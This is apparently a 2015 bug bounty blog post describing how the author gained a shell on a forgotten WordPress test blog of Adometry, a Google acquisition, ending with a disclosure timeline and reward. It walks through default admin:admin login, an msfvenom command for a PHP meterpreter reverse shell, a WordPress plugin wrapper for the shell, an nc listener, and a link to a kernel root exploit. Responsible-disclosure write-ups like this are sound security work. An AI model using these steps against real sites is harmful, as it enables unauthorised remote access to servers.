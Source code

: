 ```yaml
---
layout: post

title: "Getting a shell on a Google Acquisition"
subtitle: ""
cover_image: google/google.jpg

excerpt: "Forgotten Wordpress blog could be exploited to get remote command execution on Adometry by Google server "

author:
  name: Lorenzo Fontana
  twitter: r0rshark
  gplus: 110104859248839601734
  bio: Bug hunter and student at Polimi
  image: me.png
facebook:
  sharelink: /2015/07/30/google/

---
```


### TL;DR
Default Wordpress credentials on an old version of the Adometry blog would have allowed an attacker to upload a PHP shell and execute remote commands.

### Google dorking
Instead of studying for the exams last month I tryed to discover some bugs in a Google Acquisition to get my name listed on the **Google Hall of Fame**. The acquisition which I have targeted is **Adometry by Google** a SaaS-based marketing attribution and optimization platform. Looking around on their website I have discovered the company blog located at [http://www.adometry.com/blog/](http://www.adometry.com/blog/) which runs the **latest version of Wordpress**.
Since the bugs are often located in hidden and old pages of the website let's give them a look. A very useful way to discover these pages is Google itself. Using some operands like ``site:`` or ``inurl:`` and combining these with the ``interval of dates filter`` it is possible to discover old pages of a particular website. Let's try it: ``site:adometry.com`` and set the interval of date in the past but not that much. Besides the pages which simply redirect to the main website I have noticed something strange:

<div class="full zoomable">
  <img src="/images/google/blog2013.png">
</div>

### The Wordpress test blog
The first thing that I have noticed was the title of the blog  **Test | Just another WordPress site - Adometry** which contains the magic keyword that every Penetration Tester/Bug Hunter is looking for: **Test** that in many case means vulnerable as hell. The second thing that I have noticed is that the url of this blog [http://www.adometry.com/blog2013/](http://www.adometry.com/blog2013/) is different from the official one that I have discovered before. By inspecting the source code of the page I discovered that the **Wordpress version was the 3.5.1** that has a lot of vulnerabilities like XSS XXE CSRF and maybe a [RCE](https://vagosec.org/2013/12/wordpress-rce-exploit/), but  I am a lazy guy, out there it was very hot, and I would like to go for a swim so I tryed to find an easier way in. I know for sure this was just a testing blog and so what are the **classical credetials** for a testing thing? The default ones and in the case of Wordpress the classical **admin:admin**. Let's give them a shot and here we are:
<div class="full zoomable">
  <img src="/images/google/wordpress.png">
</div>

### Getting a shell
The easiest way to get a shell once you have admin access to a Wordpress blog is to **upload a custom plugin** containing a reverse shell, enable it and visit the page which runs it:

- Create a **php reverse shell** using msfvenom and name the file shell.php:

<code >
msfvenom -p php/meterpreter_reverse_tcp LHOST=Your IP LPORT=Your Port -f raw > shell.php
</code>

- Add comments on the top of the shell.php to **make it a valid plugin** and compress it in zip format
{% highlight php %}
<?php
/*
*     Plugin Name: My Shell
*     Plugin URI: https://github.com/r0rshark/wordpress-shell
*     Description: Execute Commands as the webserver you are serving wordpress with
*     Author: r0rshark
*     Version: 0.2
*     Author URI: https://r0rshark.github.io
*                             */
    $ipaddr='Your IP';
    $port=Your Port;

      @set_time_limit(0); @ignore_user_abort(1); @ini_set('max_execution_time',0);
      $dis=@ini_get('disable_functions');
      ...
      ?>
{% endhighlight %}
- **Upload and enable the plugin** in the Wordpress dashboard
<div class="full zoomable">
  <img src="/images/google/wordpress_plugin.png">
</div>

- **Setup a listener** at your ip and port used in the msfvenom command:

<code >
nc -lvp port
</code>

- **Execute the reverse shell** by visiting www.adometry.com/blog2013/wp-content/plugins/shell/shell.php

<div class="full zoomable">
  <img src="/images/google/shell.png">
</div>

### Maybe getting root
In the previous picture it is possible to see the current kernel version running on that machine which is the **2.6.32**. I think that there are known **public exploits** to get a root shell exploiting vulnerabilities in this kernel version. For example I have tested  [this](https://www.exploit-db.com/exploits/15704/) on a 2.6.31 kernel and since the exploit has been created to work with kernel < 2.6.37 I suppose that it can work as well. Obviously I haven't tried it because I think this would go beyond of the Bug Bounty scope.

- 1 July 2015 Vulnerability reported to the Google Security Team
- 2 July 2015 Vulnerability patched
- 9 July 2015 Got reward of $3133.7





